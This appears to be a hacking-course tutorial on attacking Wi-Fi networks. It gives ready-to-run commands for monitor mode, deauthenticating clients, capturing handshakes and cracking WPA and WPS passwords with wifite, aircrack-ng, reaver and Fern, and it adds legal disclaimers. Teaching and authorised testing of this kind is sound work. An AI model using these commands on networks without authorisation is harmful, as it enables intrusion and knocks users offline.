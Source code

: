 # Day-20: Wi-Fi Penetration Testing-1 

## THIS IS FOR EDUCATIONAL PURPOSES ONLY. THE PAGE & OWNER ARE NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY FOLLOWING THE STEPS BELOW.

### Let's Get Started

For the first step, you need a [WiFi Adapter](https://amzn.in/d/08289vCi). This is an affordable option, but if you have a larger budget, you might consider the [Alfa Network Adapter](https://amzn.in/d/06gaCZPK).

### Configuring VirtualBox

1. Connect your adapter to your system.
2. Open VirtualBox > Select your Kali VM > Go to Settings > USB.
3. After selecting USB, add a new USB device by clicking the '+' icon and selecting your adapter.
4. Click 'OK' to save the settings.

### Commands for Wi-Fi Hacking

1. **Check the WiFi adapter in Kali Linux:**
    ```sh
    lsusb
    ```
2. **Check whether the adapter is in 'monitor' mode or 'manage' mode:**
    ```sh
    iwconfig
    ```
3. **Switch the adapter from 'managed' mode to 'monitor' mode:**
    ```sh
    sudo airmon-ng start wlan0
    ```
4. **Search for Wi-Fi networks nearby:**
    ```sh
    sudo airodump-ng wlan0mon
    ```
5. **Choose a target network (ensure the signal strength is above 30 for better results):**

### Preparing for the Attack

We will use a tool called "wifite" to automate the attack process.

#### How Wifite Works

- Sends deauthentication packets to the router, disconnecting all users.
- Captures the target's packets when users attempt to reconnect, generating a .pcap file.
- Uses a common wordlist to brute force the Wi-Fi password from the captured packets.
- Once successful, you will obtain the Wi-Fi password and can connect to the network.

### Executing the Attack

1. **Install Wifite (if not already installed):**
    ```sh
    sudo apt-get update
    sudo apt-get install wifite
    ```
2. **Start Wifite:**
    ```sh
    sudo wifite
    ```
3. **Follow the prompts to select your target network and initiate the attack.**
    - Wifite will display a list of detected networks.
    - Select the network you want to target.
    - Wifite will automatically deauthenticate users, capture the handshake, and attempt to crack the password using a wordlist.

### Additional Tools for Wi-Fi Penetration Testing

#### Aircrack-ng Suite

Aircrack-ng is a complete suite of tools to assess WiFi network security.

1. **Capture packets:**
    ```sh
    sudo airodump-ng wlan0mon
    ```
    - Use this command to capture packets from a specific network:
    ```sh
    sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w [CAPTURE_FILE] wlan0mon
    ```
2. **Deauthenticate a client:**
    ```sh
    sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
    ```
3. **Crack the password:**
    ```sh
    sudo aircrack-ng -w /path/to/wordlist.txt -b [BSSID] [CAPTURE_FILE].cap
    ```

#### Reaver

Reaver is a tool for performing brute force attacks against WPS (Wi-Fi Protected Setup) registrar PINs.

1. **Put the interface in monitor mode:**
    ```sh
    sudo airmon-ng start wlan0
    ```
2. **Scan for WPS-enabled networks:**
    ```sh
    sudo wash -i wlan0mon
    ```
3. **Run Reaver against a target:**
    ```sh
    sudo reaver -i wlan0mon -b [BSSID] -vv
    ```

#### Fern WiFi Cracker

Fern WiFi Cracker is a tool for auditing and attacking wireless networks.

1. **Install Fern WiFi Cracker:**
    ```sh
    sudo apt-get update
    sudo apt-get install fern-wifi-cracker
    ```
2. **Run Fern WiFi Cracker:**
    ```sh
    sudo fern-wifi-cracker
    ```
    - Use the GUI to select your wireless adapter, scan for networks, and initiate attacks.

### Important Notes

- Ensure your actions comply with legal and ethical guidelines. Only test networks you have permission to access.
- Wi-Fi penetration testing should be conducted responsibly and solely for educational and security improvement purposes.

Happy Hacking!

---

Disclaimer: This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical.
